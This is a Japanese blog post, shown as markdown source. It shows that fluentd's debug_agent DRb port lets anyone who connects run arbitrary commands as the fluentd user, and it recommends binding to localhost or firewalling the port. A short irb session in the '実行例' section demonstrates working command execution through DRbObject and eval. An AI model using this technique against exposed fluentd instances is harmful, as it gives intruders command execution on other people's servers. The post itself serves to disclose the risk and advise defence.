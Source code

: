 ```yaml
---
layout: post
title: "fluentd に drb で接続してみた"
date: 2014-06-13 22:41:08 +0900
comments: true
categories: fluentd ruby drb
---
```

druby の口が公開されていたら、そのユーザーの権限で何でも実行できるはず、
ということで、ちょっと試してみました。

<!--more-->

## 対象バージョン

- `ruby` 2.1.2
- `fluentd` 0.10.49

## 環境の準備

vagrant 上で rbenv と ruby-build を使ってインストールした ruby 2.1.2 で

- `gem install fluentd`
- `fluentd --setup /vagrant/fluent`
- `fluentd -c /vagrant/fluent/fluent.conf &`

と起動して準備しておきました。

## 実行例

`irb` を起動しているユーザーと同じユーザーで `fluentd` も起動しているので、
特に面白いことはできそうになかったのですが、
`/proc/$$/cmdline` を確認すると `irb` 側ではなく、
ちゃんと `fluentd` 側で任意のコマンドが実行できていることがわかります。

    vagrant@fluentd-vm:~$ rbenv exec irb -r irb/completion --simple-prompt
    >> require 'drb'
    => true
    >> d = DRbObject.new_with_uri('druby://127.0.0.1:24230'); nil
    => nil
    >> d.method_missing(:send, :eval, "`id`")
    => "uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)\n"
    >> d.method_missing(:send, :eval, '`cat /proc/$PPID/cmdline`')
    => "/opt/rbenv/versions/2.1.2/bin/ruby\x00/opt/rbenv/versions/2.1.2/bin/fluentd\x00-c\x00/vagrant/fluent/fluent.conf\x00"

## 雑感

`root` 権限で起動しているなら `debug_agent` は有効にしない方が良さそうだし、
ローカルユーザーが `fluentd` の実行ユーザーの権限を使えるとまずい場合も有効にしない方が良さそうだと思いました。

また、知っている人には当たり前のことですが、
`drb` は外部に安全に公開できるものではないので、
使う場合も `localhost` だけ待ち受けるように制限すべきです。

td-agent は初期設定でそうなっているのですが、
`fluentd --setup` はそうなっていないので、
適切に設定を変更するなり firewall で塞ぐなりしておく必要がありそうです。

## td-agent 1.1.19-1 での初期設定

`127.0.0.1` だけで待ち受けるようになっていました。

    ## live debugging agent
    <source>
      type debug_agent
      bind 127.0.0.1
      port 24230
    </source>

## `fluentd --setup` で生成される設定

外からも受けつけるようになっていました。

    # Listen DRb for debug
    <source>
      type debug_agent
      port 24230
    </source>

## 参考

- [るりま の DRb](http://docs.ruby-lang.org/ja/2.1.0/library/drb.html) のセキュリティ
- [RDoc の DRb の Security の説明](http://docs.ruby-lang.org/en/2.1.0/DRb.html#module-DRb-label-Security) (英語)
